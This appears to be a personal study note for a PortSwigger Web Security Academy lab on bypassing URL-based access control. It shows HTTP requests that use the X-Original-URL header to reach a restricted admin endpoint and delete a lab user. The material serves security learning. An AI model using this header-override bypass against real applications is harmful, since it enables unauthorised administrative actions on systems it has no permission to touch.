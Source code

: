 # URL-based access control can be circumvented

[Lab in PortSwigger](https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented)

## Definition
 Some applications enforce access controls at the platform layer by restricting access to specific URLs and HTTP methods based on the user's role. For example an application might configure rules like the following:
``` 
DENY: POST, /admin/deleteUser, managers
```

This rule denies access to the POST method on the URL `/admin/deleteUser`, for users in the managers group. Various things can go wrong in this situation, leading to access control bypasses.

Some application frameworks support various non-standard HTTP headers that can be used to override the URL in the original request, such as `X-Original-URL` and `X-Rewrite-URL`. If a web site uses rigorous front-end controls to restrict access based on URL, but the application allows the URL to be overridden via a request header, then it might be possible to bypass the access controls using a request like the following:
```
POST / HTTP/1.1
X-Original-URL: /admin/deleteUser
...
```

## Notes
Request to delete a user:
```http
POST /admin/delete?username=<username>
```

The front-end restricts this request to the administrator user. But using the header `X-Original-URL` it's possible to bypass this rule.

```http
GET /?username=carlos HTTP/1.1
Host: acf11f6e1fa1057ec015425d00a40014.web-security-academy.net
Cookie: session=kGyfrOxh3yGg9BEQ93cdVJ4txNKnZSbh
X-Original-Url: /admin/delete
...
```

## Key Words
> header, x-original-url, x-rewrite-url, waf, api-gateway